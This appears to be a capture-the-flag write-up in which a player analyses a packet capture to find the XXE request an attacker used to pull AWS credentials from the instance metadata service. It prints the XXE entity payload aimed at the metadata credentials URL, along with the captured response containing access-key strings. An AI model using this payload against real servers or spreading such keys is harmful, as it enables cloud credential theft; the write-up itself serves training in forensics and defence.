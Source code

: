 The last step in this attack was to use XXE to get secret keys from the IMDS service. What URL did the attacker force the server to fetch?

Difficulty: 2/5

## Chat with Alabaster Snowball
Great! Just one more challenge! It looks like they made the server pull credentials from IMDS. What URL was forced?

AWS uses a specific IP address for IMDS lookups. Searching for that in the PCAP should get you there quickly.

## Terminal
```
What URL did the attacker force the server to fetch?
AWS uses a specific IP address to access IMDS, and that IP only appears twice in this PCAP.

169.254.169.254 is the specific IP address for IMDS lookups used by AWS. Let's search for this in the PCAP:

```
![](../../images/web_ring/XXE.png)

There are multiple XXE requests but the one that returns what the attacker was looking for is this one:
```
<!ENTITY id SYSTEM "http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance">
```

```
Line-based text data: text/html (11 lines)
    <html><body>\n
    <pre><product><productId>{\n
      "Code" : "Success",\n
      "LastUpdated" : "2022-10-05T16:43:21Z",\n
      "Type" : "AWS-HMAC",\n
      "AccessKeyId" : "ASIAV4AVRXQVJ267LD2Q",\n
      "SecretAccessKey" : "OpGR4v70ygZ3RFf4WTzjNL45pQayRwZgBUgd0LJT",\n
     [truncated]  "Token" : "IQoJb3JpZ2luX2VjECEaCXVzLWVhc3QtMiJHMEUCIHDsZXiUuHIUrLNH5pAeMiv4aUMVIScjwbo1E9LctQ3rAiEA819eJ24mILbxM3eELK2xrgskHxsRmrza/jIj3y96/sgqsgQI2v//////////ARADGgw0MDM3NzIxMjgyOTgiDMAdG5EGamJ4Z2FwyiqGBPy+CL9AfXIGfLBBDCNkC
      "Expiration" : "2022-10-05T23:00:40Z"\n
    }</productId></product></pre>\n
    </body></html>
```

## Rejoice
Fantastic! It seems simpler now that I've seen it once. Thanks for showing me!

Hey, so maybe I can help you out a bit with the door to the mines.

First, it'd be great to bring an Elvish keyboard, but if you can't find one, I'm sure other input will do.

Instead, take a minute to read the HTML/JavaScript source and consider how the locks are processed.

Next, take a look at the Content-Security-Policy header. That drives how certain content is handled.

Lastly, remember that input sanitization might happen on either the client or server ends!

## Find the Next Objective
Talk to Alabaster Snowball for the next objective.